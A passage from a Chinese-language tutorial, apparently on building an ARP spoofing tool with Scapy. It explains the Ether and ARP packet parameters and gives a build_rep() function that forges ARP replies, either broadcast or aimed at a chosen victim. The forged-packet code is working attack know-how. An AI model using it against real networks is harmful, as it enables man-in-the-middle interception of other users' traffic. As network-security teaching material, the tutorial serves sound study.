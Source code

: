 在上面的代码中，我们组合Ether和ARP方法来生成arp数据包。我们先解下Ether的参数：

![](img/11.png)

构造一个以太网数据包通常需要指定目标和源MAC地址，如果不指定，默认发出的就是广播包，例如：

![](img/12.png)

再来了解下ARP构造函数的参数列表：

![](img/13.png)

构造ARP需要我们注意的有5个参数：

    op。取值为1或者2，代表ARP请求或者响应包。

    hwsrc。发送方Mac地址。

    psrc。发送方IP地址。

    hwdst。目标Mac地址。

    pdst。目标IP地址。

如果用户在终端中没有传入目的ip则构建广播包，否则为定向欺骗数据包。下面是build_rep()方法的实现：

```Python
 def build_rep():#构造响应数据包
        if options.target is None:
            pkt = Ether(src=mac, dst='ff:ff:ff:ff:ff:ff') / ARP(hwsrc=mac, psrc=args[0], op=2)
        elif options.target:
            target_mac = getmacbyip(options.target)
            if target_mac is None:
                print("[-] Error: 无法获取目标mac地址")
                sys.exit(1)

            pkt = Ether(src=mac, dst=target_mac) / ARP(hwsrc=mac, psrc=args[0], hwdst=target_mac, pdst=options.target, op=2)
        
        return pkt
```
